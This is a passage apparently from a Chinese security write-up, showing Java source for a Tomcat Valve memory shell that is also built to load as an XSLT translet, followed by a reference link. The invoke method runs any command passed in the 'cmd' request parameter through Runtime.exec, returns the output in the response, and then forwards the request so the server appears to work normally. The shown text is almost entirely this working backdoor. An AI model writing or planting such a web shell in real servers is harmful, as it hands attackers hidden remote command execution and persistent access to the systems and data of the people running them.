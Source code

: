 ```java
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public Valve getNext() {
        return null;
    }

    @Override
    public void setNext(Valve valve) {

    }

    @Override
    public void backgroundProcess() {

    }

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        try {
            if (cmd != null && cmd != "") {
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                StringBuilder output = new StringBuilder();
                String line;
                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }
                process.waitFor();
                response.getWriter().write(output.toString());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        request.getContext().getPipeline().getBasic().invoke(request,response);
    }

    @Override
    public boolean isAsyncSupported() {
        return false;
    }
}
```



参考链接：

https://forum.butian.net/share/2436